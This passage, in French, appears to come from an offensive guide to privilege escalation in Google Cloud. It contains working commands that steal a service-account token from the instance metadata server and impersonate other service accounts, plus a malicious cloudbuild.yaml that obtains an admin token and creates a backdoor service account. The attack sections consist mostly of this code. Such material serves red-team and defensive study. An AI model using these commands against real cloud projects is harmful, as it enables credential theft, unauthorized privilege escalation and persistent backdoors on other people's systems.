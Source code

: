 Cette technique de chaînage permet de contourner certaines restrictions de sécurité et de masquer la source originale de l'attaque.

### 3\. Exploitation via les Services de Calcul

Les comptes de service attachés aux instances Compute Engine, aux fonctions Cloud Functions, ou aux services Cloud Run peuvent être exploités pour l'escalade de privilèges.

**Exploitation Compute Engine :**

```bash
# Depuis une instance compromise, obtenir le token du compte de service attaché
curl -H "Metadata-Flavor: Google" \
    "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"

# Utiliser le token pour impersonner d'autres comptes de service
curl -X POST \
    -H "Authorization: Bearer $INSTANCE_TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"scope": ["https://www.googleapis.com/auth/cloud-platform"], "lifetime": "3600s"}' \
    "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/target-service@project-id.iam.gserviceaccount.com:generateAccessToken"
```

### 4\. Exploitation des Services de Déploiement

Les services comme Cloud Build et Deployment Manager disposent de comptes de service hautement privilégiés qui peuvent être exploités pour l'escalade de privilèges.

**Exploitation Cloud Build :**

```yaml
# cloudbuild.yaml malveillant
steps:
- name: 'gcr.io/cloud-builders/gcloud'
  entrypoint: 'bash'
  args:
  - '-c'
  - |
    gcloud auth print-access-token \
        --impersonate-service-account=admin-service@project-id.iam.gserviceaccount.com > /workspace/admin-token.txt
    
    # Utiliser le token pour des actions malveillantes
    export TOKEN=$(cat /workspace/admin-token.txt)
    curl -H "Authorization: Bearer $TOKEN" \
        -X POST \
        "https://iam.googleapis.com/v1/projects/project-id/serviceAccounts/backdoor-service@project-id.iam.gserviceaccount.com"
```

### 5\. Techniques d'Escalade par Tagging

Une technique récemment découverte exploite les conditions IAM basées sur les tags pour escalader les privilèges. Un utilisateur avec les rôles `roles/resourcemanager.tagUser` et `roles/viewer` peut potentiellement obtenir des permissions administratives.
